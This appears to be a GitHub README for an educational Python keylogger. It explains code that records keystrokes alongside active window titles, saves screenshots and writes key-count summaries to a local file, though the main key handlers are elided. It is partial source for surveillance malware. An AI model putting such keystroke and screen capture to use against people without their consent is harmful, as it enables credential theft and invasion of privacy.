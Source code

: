 # Keylogger Project

This project implements a keylogger using Python that tracks keystrokes, takes screenshots, and logs active window titles. The keylogger records key presses and releases, while providing functionality to clear logs and take screenshots on demand.

## Features

- **Logging Keystrokes**: Records each key press and release along with the active window title.
- **Session Logging**: Summarizes key counts at the end of the session.
- **Clear Log Command**: Clears the log file when the '#' key is pressed.
- **Screenshot Functionality**: Takes a screenshot when the 'ESC' key is pressed.

## Requirements

- `pynput`: For listening to keyboard events.
- `Pillow`: For taking screenshots.
- `pywin32`: For interacting with Windows GUI.

## Installation

To install the required packages, use the following command:

```bash
pip install pynput Pillow pywin32
```
### Code Explanation
Importing Libraries
``` bash
import logging
import time
from pynput import keyboard
from datetime import datetime
import win32gui
import win32process
from PIL import ImageGrab
```
### Logging Configuration

``` bash
file_log = 'keyloggeroutput.txt'
logging.basicConfig(filename=file_log, level=logging.DEBUG, format='%(message)s')
```
This configures the logging to write to keyloggeroutput.txt.

### Active Window Retrieval
```bash 
def get_active_window():
    hwnd = win32gui.GetForegroundWindow()
    window_text = win32gui.GetWindowText(hwnd)
    return window_text
```
This function retrieves the title of the currently active window.

### Screenshot Functionality
```bash
def take_screenshot():
    img = ImageGrab.grab()
    img.save(f'screenshot_{int(time.time())}.png')
```
This function takes a screenshot and saves it with a timestamp.

### Key Mapping
```bash
key_mapping = {
    keyboard.Key.space: 'SPACE',
    keyboard.Key.enter: 'ENTER',
    keyboard.Key.tab: 'TAB',
    keyboard.Key.esc: 'ESC',
}
```
Defines a mapping for special keys to make the logs more readable.

### Clear Log Functionality
``` bash
def clear_log_file():
    with open(file_log, 'w') as log_file:
        log_file.write("")  # Clear the contents
```
Clears the log file when called.

### Key Press Event
``` bash
def on_press(key):
    ...
```
Handles key press events. If the '#' key is pressed, it clears the log file.
 It logs the key pressed along with the active window title, avoiding redundant entries.

### Key Release Event
```bash
def on_release(key):
    ...
```
Handles key release events and logs them. It also takes a screenshot when 'ESC' is released, stopping the listener.

### Starting the Key Logger
``` bash
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
This starts the keylogger listener.

### Session Summary
At the end of the session, a summary of key counts is logged:
```bash
with open(file_log, 'a') as log_file:
    log_file.write("\n=== Session Summary ===\n")
    for key, count in key_count.items():
        log_file.write(f'Key: {key}, Count: {count}\n')
```
### Usage
Run the script to start logging.
Use the ```'#'``` key to clear logs.
Press ```'ESC'``` to take a screenshot and stop the logging session.

### Disclaimer
This keylogger is for educational purposes only. Use responsibly and ensure compliance with legal regulations regarding privacy and consent.

